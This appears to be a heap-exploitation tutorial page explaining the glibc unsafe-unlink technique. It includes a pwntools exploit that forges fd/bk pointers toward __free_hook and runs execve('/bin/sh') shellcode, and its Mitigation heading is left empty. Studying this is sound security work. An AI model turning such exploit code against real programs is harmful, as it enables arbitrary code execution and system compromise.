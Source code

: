 ## Implementation

The goal is to clear the next chunk's prev in use flag in order to trigger a consolidation of 2 chunks when freeing.
We then need to control the fd and bk pointers of the consolidated chunks to trigger 2 arbitrary writes.

When free unlink our first chunk during consolidation, it follows the backward pointer and update its forward pointer, and does the opposit to the forward pointer, like a regular unlink.

```c
chunk->fd->bk = chunk->bk;
chunk->bk->fd = chunk->fd;
```

bk being at offset 0x18 and fd at offset 0x10 in the chunk structure.

It looks like this in assembly:
rax = fd
![rax](./media/rax.png)
rdx = bk
![rdx](./media/rdx.png)


#### Exploit example
```python
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20 + 0x10 - 0x10 # heap + 0x20 = first chunk, +0x10 = shellcode
prev_size = 0x90
fake_size = 0x90 # with prev in use flag cleared

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

edit(chunk_a, p64(fd) + p64(bk) + shellcode + (b'\x00'*(0x70 - len(shellcode))) + p64(prev_size) + p64(fake_size))

# Trigger consolidation
free(chunk_b)

# Trigger free_hook
free(chunk_a)

```

## Mitigation
